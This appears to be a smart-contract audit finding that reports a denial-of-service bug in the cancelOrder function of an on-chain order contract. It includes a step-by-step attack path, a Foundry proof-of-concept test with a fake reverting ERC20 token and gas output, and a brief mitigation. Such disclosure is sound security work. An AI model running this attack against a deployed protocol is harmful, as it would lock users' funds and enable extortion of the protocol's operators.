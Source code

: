 Urban Blonde Millipede

High

# `cancelOrder` order can be DOSed due to unbounded loop.

### Summary

The `pendingOrderIds` arrays can grow too large making it impossible to cancel subsequent legitimate pending orders, this will create a permanent DOS for the `_cancelOrder` no one will be able to cancel orders not admin nor order reciepient.

### Root Cause

The root cause of the issue lies in the `_cancelOrder` function that loops through the `pendingOrderIds` in search of the right one because this `pendingOrderIds` array can grow too large a DOS is bound to happen and this can be exploited by a hacker to ransomware the protocol.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151

```solidity
    function _cancelOrder(Order memory order) internal returns (bool) {
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {
            if (pendingOrderIds[i] == order.orderId) {
                //remove from pending array
                pendingOrderIds = ArrayMutation.removeFromArray(
                    i,
                    pendingOrderIds
                );

                //refund tokenIn amountIn to recipient
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);

                //emit event
                emit OrderCancelled(order.orderId);

                return true;
            }
        }
        return false;
    }

```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker creates a malicious ERC20 token with fake transfers to ease the gas cost for this attack.
2. Attacker Creates 20800 orders using a worthless token as tokenIn, demanding 1 USDC per order.
3. They make it impossible for the admin to cancel the order because they deliberately revert the transfer on their malicious contract.
4. After this legitimate users will not be able to cancel order.

### Impact

1. The cancelOrder function won't work and it will cost around $150 dollar to do it.
2. There is a financial ransomware gain where the attacker can set high tokens out and force the admin to pay more money for their worthless token, so this is incentivized.

### PoC

Follow these steps to add foundry to the contract https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry

Install open zeppelin contracts
```bash
forge install https://github.com/OpenZeppelin/openzeppelin-contracts.git --no-commit
```
Copy and paste the code snippet below in the `/test/` folder.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";
import "../contracts/interfaces/uniswapV3/IPermit2.sol";
import "../contracts/interfaces/openzeppelin/ERC20.sol";
import "../contracts/interfaces/openzeppelin/IERC20.sol";

contract FakeERC20 {
    function transfer(address to, uint256 amount) external returns (bool) { 
        revert("HACKED!");
        return false;
    }

    function transferFrom(address from, address to, uint256 amount) external returns (bool) { 
        return true;
    }

}

contract PocTest is Test {

    AutomationMaster automationMaster;
    OracleLess oracleLess;
    IPermit2 permit2;
    IERC20 fakeErc20;
    IERC20 realToken;

    address attacker = makeAddr("attacker");
    address alice = makeAddr("alice");

    function setUp() public {
        automationMaster = new AutomationMaster();
        oracleLess = new OracleLess(automationMaster, permit2);
        fakeErc20 = IERC20(address(new FakeERC20()));
        realToken = IERC20(address(new ERC20Mock()));
        //MINT
        ERC20Mock(address(realToken)).mint(alice, 100 ether);
    }

    function testDosAttack() public {
        uint96 orderId;
        uint gasUsed = gasleft();
        vm.startPrank(alice);
        realToken.approve(address(oracleLess), 100 ether);
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');
        gasUsed = gasleft();
        oracleLess.cancelOrder(orderId);
        console.log("Normal Cancel Gas Usage        : ", gasUsed - gasleft());
        vm.stopPrank();

        vm.startPrank(attacker);
        gasUsed = gasleft();
        for (uint i = 0; i < 20800; i++)
            oracleLess.createOrder(fakeErc20, fakeErc20, 1, 1, attacker, 10, false, '0x0');
        console.log("Attack Gas Usage               : ", gasUsed - gasleft());
        vm.stopPrank();

        vm.startPrank(alice);
        gasUsed = gasleft();
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');
        oracleLess.cancelOrder(orderId);
        console.log("After Attack Cancel Gas Usage  : ", gasUsed - gasleft());
        vm.stopPrank();
    }

}
```
Output
```bash
[PASS] testDosAttack() (gas: 444968053)
Logs:
  Normal Cancel Gas Usage        :  9439
  Attack Gas Usage               :  394889776
  After Attack Cancel Gas Usage  :  30294277
```
From the test  output, we can see that `20800` order is enough to cause a DOS on the `cancelOrder` function, and it will cost the attacker `394889776` is about $150 dollar.

### Mitigation

Create a fuction that can use the index to cancel order.